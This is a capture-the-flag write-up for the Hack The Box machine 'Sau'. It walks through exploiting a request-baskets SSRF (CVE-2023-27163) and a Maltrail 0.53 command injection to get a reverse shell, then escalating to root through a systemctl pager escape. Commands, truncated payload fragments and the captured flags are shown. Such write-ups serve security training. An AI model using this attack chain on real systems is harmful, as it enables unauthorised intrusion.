

**Machine created by:** [sau123](https://app.hackthebox.com/users/201596)

## Recon

Starting with a nmap scan of the IP, we see 3 open ports.

```
$ sudo nmap 10.10.11.224 --top-ports 1000
Starting Nmap 7.94 ( https://nmap.org ) at 2024-01-02 17:22 AEDT
Nmap scan report for 10.10.11.224
Host is up (0.011s latency).
Not shown: 997 closed tcp ports (reset)
PORT      STATE    SERVICE
22/tcp    open     ssh
80/tcp    filtered http
55555/tcp open     unknown
```

Lets edit our `/etc/hosts` and add a new entry.

```
10.10.11.224 sau.htb
```

Trying to load [sau.htb:80](http://sau.htb:80) failed, so I take a look at port 55555 and load [sau.htb:55555](http://sau.htb:55555) and see a `request-baskets` instance.



## Exploitation

I look for any CVEs related to `request-baskets` and find a [PoC for CVE-2023-27163](https://github.com/entr0pie/CVE-2023-27163) which is an SSRF vulnerability. We can maybe access that port 80 service we can't seem to reach.

```
$ ./CVE-2023-27163.sh http://sau.htb:55555/ http://localhost:80/
Proof-of-Concept of SSRF on Request-Baskets (CVE-2023-27163) || More info at https://github.com/entr0pie/CVE-2023-27163

> Creating the "bameet" proxy basket...
> Basket created!
> Accessing http://sau.htb:55555/bameet now makes the server request to http://localhost:80/.
> Authorization: NM2Y9TQKkreZV-x6IjfYLsjs55W-g6JJ3YlDeB6b1kSc
```

Visiting the request bin shows us a broken instance of Mailtrail (v0.53).


## Initial Access & User Flag

Looking online there is a vulnerability for Mailtrail, and find a [PoC](https://packetstormsecurity.com/files/174129/Maltrail-0.53-Remote-Code-Execution.html) which is an RCE.

I set up a reverse shell listener...

```
$ pwncat-cs
[16:41:49] Welcome to pwncat 🐈!
(local) pwncat$ listen --host -m linux 10.10.***.*** 4444
[16:41:53] new listener created for 10.10.***.***:4444
(local) pwncat$
```

and execute the PoC...

```
$ python3 MailTrailv053.py 10.10.***.*** 4444 http://sau.htb:55555/bameet
Running exploit on http://sau.htb:55555/bameet/login
```

And I see a shell!

```
[18:09:07] 10.10.11.224:54314: upgrading from /usr/bin/dash to /usr/bin/bash
           10.10.11.224:54314: registered new host w/ db 
           listener: 10.10.16.9:4444: linux session from 10.10.11.224:54314
           established
```

After changing to the shell I notice i'm the user `puma`, I then navigate to the user directory of `puma`:
```
(remote) puma@sau:/opt/maltrail$ cd /home/puma
(remote) puma@sau:/home/puma$ cat user.txt
70e0259608b4b058ee6e83c02f83554b
```

There's the user flag!

Flag: `70e0259608b4b058ee6e83c02f83554b`

## Root Flag

Checking `sudo -l` gives the following:

```
Matching Defaults entries for puma on sau:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
```

Looking at GTFOBins entry for [systemctl](https://gtfobins.github.io/gtfobins/systemctl/#sudo) under the Sudo permission, there are some exploits.

The most promising one is option (c) due to our limited sudoers line.

I attempt the exploit:

```
(remote) puma@sau:/home/puma$ sudo /usr/bin/systemctl status trail.service
● trail.service - Maltrail. Server of malicious traffic detection system
     Loaded: loaded (/etc/systemd/system/trail.service; enabled; vendor preset: enabled)
     Active: active (running) since Mon 2024-01-01 10:14:15 UTC; 21h ago
       Docs: https://github.com/stamparm/maltrail#readme
             https://github.com/stamparm/maltrail/wiki
   Main PID: 893 (python3)
      Tasks: 75 (limit: 4662)
     Memory: 384.2M
     CGroup: /system.slice/trail.service
             ├─  893 /usr/bin/python3 server.py
             ├─ 2476 /bin/sh -c logger -p auth.info -t "maltrail[893]" "Failed password for ;`echo ">
             ├─ 2478 /bin/sh -c logger -p auth.info -t "maltrail[893]" "Failed password for ;`echo ">
             ├─ 2486 sh
             ├─ 2487 python3 -c import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STRE>
             ├─ 2488 /bin/sh
             ├─ 2510 sudo /usr/bin/systemctl status trail.service
             ├─ 2512 /usr/bin/systemctl status trail.service
             ├─ 2513 pager
             ├─ 2515 /bin/sh -c logger -p auth.info -t "maltrail[893]" "Failed password for ;`echo ">
             ├─ 2516 /bin/sh -c logger -p auth.info -t "maltrail[893]" "Failed password for ;`echo ">
             ├─ 2519 sh
             ├─ 2520 python3 -c import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STRE>
             ├─ 2521 /bin/sh
!sh
# whoami
root
# cd /root/root.txt
9d5259dd1993658152d9863c78564c1e
```

And there's the root flag:

Flag: `9d5259dd1993658152d9863c78564c1e`

